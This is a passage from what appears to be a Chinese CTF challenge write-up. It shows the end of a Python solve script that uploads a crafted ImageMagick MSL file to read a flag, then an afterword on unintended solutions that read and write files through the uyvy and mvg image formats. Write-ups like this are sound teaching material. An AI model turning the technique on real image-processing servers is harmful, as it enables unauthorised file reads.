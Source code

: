 ```python
    )
    return res.text.encode().replace(b'\0', b'')

if __name__ == '__main__':
		# ./img.msl 见上
    with open("./img.msl", "r") as fp:
        msl_file = fp.read()

    for i in range(5, 6):
        rm_tmp_file()
        n_msl_file = msl_file.format(img_size=i, ppm_data=b64_img)
        
        time.sleep(5)
        upload_session_and_read_file(n_msl_file)

        print("=" * 20)
        print(f"try: {i} times")
        print(get_flag())        
        print("=" * 20)

        time.sleep(5)
```

运行效果：

[![pC3Unmj.png](https://s1.ax1x.com/2023/06/19/pC3Unmj.png)](https://imgse.com/i/pC3Unmj)

后记：

出这道题的时候 `imagemagick` 爆了两个 `RCE` 的 `CVE` ，幸好 `docker` 环境内的版本比较旧，不受影响，要不然就紫砂了😢。不知道这次有没有非预期出来 `RCE` 的（白嫖0day（不是

看了一眼选手们的wp，没有人是预期解做的（紫砂了（这里说一下非预期：

其实不光是 `RGB` 格式，通过 `fuzz` 其他格式也可以找到方便读写文件的格式。（早知道把除了 `[rgb.so](http://rgb.so)` 以外的库都删除了

最简单的是 `uyvy` 这个奇妙的格式，可以直接读写。

其次是 `mvg` ，需要修改一下偏移。